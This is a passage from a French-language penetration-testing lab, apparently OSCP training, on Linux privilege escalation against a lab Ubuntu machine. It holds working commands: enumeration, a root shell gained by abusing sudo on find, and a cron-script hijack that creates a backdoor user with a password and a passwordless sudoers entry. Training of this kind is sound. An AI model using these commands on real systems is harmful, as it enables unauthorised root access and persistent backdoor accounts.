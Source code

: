 1. Connectez-vous à la machine Ubuntu en tant qu'utilisateur `student`
   ```bash
   ssh student@<IP_UBUNTU>
   # Mot de passe: oscp123
   ```

2. Effectuez une énumération de base du système :
   ```bash
   # Informations système
   uname -a
   cat /etc/issue
   
   # Informations utilisateur
   id
   sudo -l
   
   # Recherche de binaires SUID
   find / -perm -u=s -type f 2>/dev/null
   ```

3. Analysez les résultats et identifiez les vecteurs potentiels :
   - Permissions sudo pour `/usr/bin/find`
   - Binaire SUID `/usr/local/bin/backup.sh`

#### Exercice 2: Exploitation via sudo (10 minutes)

1. Exploitez les permissions sudo pour `/usr/bin/find` :
   ```bash
   # Exécuter find avec sudo pour obtenir un shell root
   sudo find /etc -exec /bin/sh \; -quit
   ```

2. Vérifiez que vous avez obtenu un shell root :
   ```bash
   whoami
   # Résultat attendu: root
   ```

3. Examinez le système en tant que root :
   ```bash
   # Vérifier les tâches cron
   cat /etc/crontab
   
   # Examiner le script exécuté par cron
   ls -la /usr/local/bin/status.sh
   cat /usr/local/bin/status.sh
   ```

4. Quittez le shell root :
   ```bash
   exit
   ```

#### Exercice 3: Exploitation via script cron (15 minutes)

1. Modifiez le script vulnérable exécuté par cron :
   ```bash
   # Sauvegardez le contenu original
   cp /usr/local/bin/status.sh /tmp/status.sh.bak
   
   # Remplacez le contenu par une commande pour créer un utilisateur privilégié
   echo '#!/bin/bash' > /usr/local/bin/status.sh
   echo 'useradd -m -p $(openssl passwd -1 hacker123) -s /bin/bash -G sudo hacker' >> /usr/local/bin/status.sh
   echo 'echo "hacker ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' >> /usr/local/bin/status.sh
   ```

